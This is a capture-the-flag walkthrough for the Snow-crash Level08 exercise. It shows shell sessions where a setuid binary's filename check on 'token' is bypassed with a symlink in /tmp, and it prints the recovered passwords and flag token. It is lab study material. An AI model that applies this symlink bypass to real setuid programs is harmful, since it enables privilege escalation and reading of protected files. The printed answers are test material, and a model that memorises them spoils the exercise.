 ```yaml
---
title:  "Snow-crash Level08"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

ttags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: 
- 42

---
```


#### 1. The password of `Level08` is the token that got from `Level07`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level08 with the password we got from Level07 and try to put the command `ls`. We can see the files `Level08` and `token`. and try to `cat` and `execute`.

```bash
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ cat token
cat: token: Permission denied
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

We can see `cat: token: Permission denied` and `execute: ./level08 [file to read]`.

#### 3 . then, try to ltrace

```bash
level08@SnowCrash:~$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)        = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Same for the ltrace command, we need a another file to be read.

```bash
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ chmod +x token
chmod: changing permissions of `token': Operation not permitted
```

#### 4. So, since we don't have any access, let's create the `symbolic link` as we did in previous exercises.

```bash
level08@SnowCrash:~$ pwd
/home/user/level08
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/level08flag
level08@SnowCrash:~$ ./level08 /tmp/level08flag
quif5eloekouj29ke0vouxean
```

#### 5. So, we found our password! Let's put our password into flag08 for level09.

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

#### 6. We got a toekn for level 09. 
```
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```